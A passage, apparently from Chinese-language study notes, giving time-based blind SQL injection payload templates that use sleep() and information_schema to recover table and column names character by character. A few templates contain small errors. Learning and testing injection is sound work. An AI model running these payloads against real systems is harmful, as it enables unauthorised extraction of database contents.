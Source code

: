 ```
1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+		//65<=m<=122
```

###### ③获取表名长度

```
1' and if(exp1,sleep(10),0) --+
exp1= length((select count(table_name)from information_schema.tables where table_schema=database() limit 0,1))
综上：
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m,sleep(10),0) --+		//m为表名长度
```

```
//获取表的个数
1' and if(exp1,sleep(10),0) --+
exp1= select count(*) from information_schema.tables where table_schema=database())=m
综上:
1' and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(10),0) --+	//m为表的个数
```

###### ④获取表名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and if(length(),sleep(10),0) --+
exp1= length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m
综上：
1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+		//m为字段名长度 

//获取字段个数
1' and if((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m,sleep(10),0) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+		//n为字段名的位置，m为ascii范围[65,122]
```

